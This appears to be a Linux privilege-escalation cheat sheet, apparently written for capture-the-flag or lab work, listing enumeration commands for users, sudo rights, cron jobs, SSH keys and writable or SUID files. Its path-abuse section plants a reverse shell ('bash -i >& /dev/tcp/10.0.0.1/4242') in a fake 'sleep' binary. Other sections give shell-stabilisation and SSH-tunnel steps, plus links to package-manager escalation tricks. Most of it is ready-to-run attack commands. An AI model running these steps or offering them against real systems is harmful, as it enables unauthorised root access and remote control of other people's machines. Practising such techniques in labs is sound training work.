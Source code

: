
### CHECK LIST:

- __UserID, Username,Group:__
```bash
id
```

- __Privileges on the box:__
```bash
sudo -l
```

- __Directory to check:__
```bash
cd /tmp
cd /dev/shm
cd /home/<user>/.*
cd /opt
cd /var/opt
```

- __Look network processes__:
```bash
netstat -l
```

- __Look processes__:
```bash
./pspy64
ps aux | grep root
...
```

- __Look Bash files__:
```bash
cat /home/<user>/.bash*
```

- __Cronjobs__:
```bash
crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```

- __SSH Keys__:
```bash
/home/<user>/.ssh/
```

- __Path Abuse__: 
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses

```bash
export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /tmp
echo “bash -i >& /dev/tcp/10.0.0.1/4242 0>&1” > sleep
chmod +x sleep

/usr/bin/healthcheck
```

- __Writable files__:
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

- __SUID/GUID__
```bash
find / -perm -u=s -type f 2> /dev/null
find / -perm -g=s -type f 2> /dev/null
```

- __SSH TUNNEL__
```bash
ssh aubreanna@internal.thm -L80:localhost:8080

-L Local
```

- __STABLE SHELL__
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/tmp
export TERM=xterm-256color
alias ll='clear ; ls -lsaht --color=auto'
stty raw -echo ; fg ; reset
```

### YUM
* https://blog.ikuamike.io/posts/2021/package_managers_privesc/#method-1-creating-a-malicious-debian-package
* https://gtfobins.github.io/gtfobins/yum/
